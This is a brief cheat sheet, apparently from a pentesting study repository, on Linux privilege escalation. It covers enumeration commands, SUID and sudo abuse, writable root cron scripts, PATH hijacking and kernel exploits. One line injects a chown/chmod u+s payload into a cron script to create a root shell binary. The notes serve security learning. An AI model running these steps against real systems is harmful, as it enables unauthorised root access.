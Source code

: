 = Privilege Escalation

== Summary
`$ netstat -antup`
`$ ps -aux | grep root`
`$ find / -perm -u=s -type f 2>/dev/null`
`$ sudo -l`
`$ ls -la /etc/cron.d`
`$ echo $PATH`
`$ uname -a`


== Root Services Exploit
Certain services are run as root when they shouldn't be. These can be either database or mail/web servers.

=== Enumeration
`$ netstat -antup` to find list of open ports
`$ ps -aux | grep root` to find list of processes running as root


== SUID executable
`setuid` is a flag that allows users to run an executable with the permission of the file owner. If the file owner is root,
then the executable can be used to achieve root. Useful when executables is file editor/compiler/interpreter

=== Enumeration
`$ find / -perm -u=s -type f 2>/dev/null` to find list of executables with suid bit set


== Sudo rights
Allowing certain executables as root. For example, `find` can be used to search for logs, but also start a shell

=== Enumeration
`$ sudo -l` list commands user can run in sudo


== Root cron jobs
The goal is to find cron jobs that execute world-writable scripts. 
We can then create a shell-spawn executable, and elevate its privileges in said script.

=== Enumeration
`$ ls -la /etc/cron.d` lists cron jobs
`$ find / -perm -2 -type f 2>/dev/null` finds world-writable files. We want to find scripts called from cron jobs

=== Exploit
`$ echo "chown root:root /tmp/rootme; chmod u+s /tmp/rootme;" >/usr/local/sbin/cron-logrotate.sh`


== . in path
Root users might add `.` to their path to save typing `./`

=== Enumeration
`$ echo ${PATH}`

=== Exploit
Create an executable that contains a shell-spawning script, and wrap it around a common tool.
Then, trick root user to use said tool


== Kernel Exploit Attack
We need:
- A vulnerable kernel
- A matching exploit
- Ability to transfer exploit onto the target
- Ability to execute exploit onto the target

=== Enumeration
`uname -a` gets kernel version

=== Exploit
`$ searchsploit Linux Kernel 2.6.24` searches for exploits of that version

More here: https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/


